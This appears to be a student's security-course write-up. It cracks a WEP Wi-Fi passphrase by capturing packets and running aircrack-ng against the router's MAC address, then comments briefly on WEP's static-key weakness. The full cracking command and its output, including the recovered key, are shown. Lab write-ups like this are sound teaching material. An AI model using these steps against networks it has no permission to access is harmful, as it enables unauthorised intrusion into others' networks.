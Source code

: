 Exercise-1:
1.	Step by step process to crack passphrase:
-	Step 1 – Study & Identify Limitation of the Network
In this step, we learn that WEP network suffers from limitations mentioned (as in the answer of Exercise 1.2 below). To exploit these limitation, we decided to perform Brute force attack. In order to perform this attack, we used a tool called aircrack-ng.
-	Step 2 – Get the MAC Address of target router 
In order to get the MAC Address of the wi-fi router, we have used the airport utility available for macOS. The address e8:94:f6:f2:f1:e1 was identified as the routers MAC Address.

-	Step 3 – Generate a packet capture file
In this step, we generate a .pcap file which is nothing but a tcp packet dump of the network. This is done by Wireless Diagnostics utility available on macOS. Wireless Diagnostics sniffs the network on given channel (in our case channel 6) and generates the required pcap file.

 

-	Step 4 – Using aircrack-ng to get the passphrase 
The tool aircrack-ng setups up a Brute force attack on the specified target with the help of captured network tcpdump and the BSSID (MAC Address) obtained in 2nd step. The command outputs the passphrase of the wi-fi router as shown below in the screenshot.

pallavikhadse$ aircrack-ng -b e8:94:f6:f2:f1:e1 to_break.pcap
Reading packets, please wait...
Opening first.pcap
Read 87871 packets.

1 potential targets

Attack will be restarted every 5000 captured ivs.
Starting PTW attack with 22606 ivs.


		                Aircrack-ng 1.5.2 rev 3dab9517


             		[00:00:00] Tested 578 keys (got 22606 IVs)

   KB    depth   byte(vote)
    0    3/  5   81(27648) 6F(27136) F8(27136) A0(26880) 3B(26880) E3(26880) E1(26624) 38(26624) 21(26624) B0(26368) A6(26368) E4(26112) E6(25856) 33(25856) 88(25856) 64(25600) 
    1    4/  7   6B(28672) 4F(28160) ED(27904) FB(27392) B7(27392) 33(26880) 50(26880) B3(26624) 3B(26624) 5C(26624) A7(26624) 94(26368) F1(26368) B0(26368) E2(26112) B2(26112) 
    2    0/  6   79(29952) F2(28928) 98(28416) 94(27648) C7(27648) EB(27392) 87(27136) 95(27136) CD(26880) 56(26880) 46(26880) A5(26880) 3E(26880) 5E(26624) 3F(26624) 03(26624) 
    3    0/  3   64(30464) 80(30208) 20(27904) 7D(27648) 59(27392) 1D(26880) 29(26880) DA(26880) 27(26624) DD(26624) 0C(26368) B3(26368) 9B(26368) EE(26112) B8(26112) 7A(26112) 
    4    0/  1   32(31744) 2B(28928) 03(28672) 4A(28672) 38(28416) C5(28160) D2(28160) AC(28160) 24(27904) 8E(27392) E2(27392) 68(27136) 7A(27136) 7E(26880) FA(26624) 87(26624) 

                     KEY FOUND! [ 6F:6B:79:64:32 ] (ASCII: okyd2 )
					Decrypted correctly: 100%


2.	Weakness of protocol:
-	One of the weaknesses is that WEP network uses only one static key when transmitting any data from a device. This encryption uses a shared key-authentication and transmits the same key with data-packets across the network.
 